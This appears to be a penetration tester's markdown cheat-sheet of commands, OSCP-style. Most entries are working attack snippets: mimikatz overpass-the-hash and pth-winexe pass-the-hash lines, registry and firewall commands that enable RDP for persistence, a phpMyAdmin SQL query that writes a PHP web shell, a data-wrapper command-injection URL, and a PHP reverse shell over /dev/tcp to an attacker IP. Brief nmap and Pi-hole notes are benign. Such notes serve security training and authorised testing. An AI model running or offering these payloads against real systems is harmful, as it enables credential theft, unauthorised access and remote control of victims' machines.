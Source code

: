 ## nmap

If you need to generate a nice html report from the output you can use *xsltproc*:

- `sudo xsltproc final_discovery.xml -o nmap_DATE_TARGET.html`

## overpass-the-hash

- get the bill_admin's hash then use it to open up a new PowerShell prompt as him with mimikatz: `sekurlsa::path /user:bill_admin /domain:corp.com /ntlm:<NTLM hash> /run:PowerShell.exe`

## pass-the-hash

- pass-the-hash attack for Win: `pth-winexe -U Administrator%'<admin hash>' //<target IP> cmd.exe`

## Persistence via RDP

(credit: [Joe Helle aka The Mayor, MPP course](https://academy.tcm-sec.com/p/movement-pivoting-and-persistence-for-pentesters-and-ethical-hackers))

1. `powershell reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f; Enable-NetFirewallRule -DisplayGroup "Remote Desktop"` enabling Remote Desktop via PowerShell
2. `xfreerdp /u:<username> /p:'<password>' /v:<target IP>` now we can connect to it from kali
3. To disable it: `powershell reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f; Disable-NetFirewallRule -DisplayGroup "Remote Desktop"`

## phpmyadmin

- `select ("<?php system($_REQUEST['cmd'])?>") INTO DUMPFILE C:\\wamp\\apps\\phpmyadmin5.0.2\\cmd.php`

## php web server

- `php -S 0.0.0.0:8000`

## php wrapper

- `http://<target IP>/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>`
- `<?php echo system("0<&196;exec 196<>/dev/tcp/10.11.0.191/443; sh <&196 2>&196"); ?>`

## Pihole ( and Unbound)

- For easy install and setup follow the steps in this blog post at **[Crosstalk Soutions](https://www.crosstalksolutions.com/the-worlds-greatest-pi-hole-and-unbound-tutorial-2023/)**
- once installed and configured changing wi-fi adapter DNS settings from cmd: `netsh interface ip set dns name="Wi-Fi" static <DNS Server static IP>`

## playing with encoding and hashes
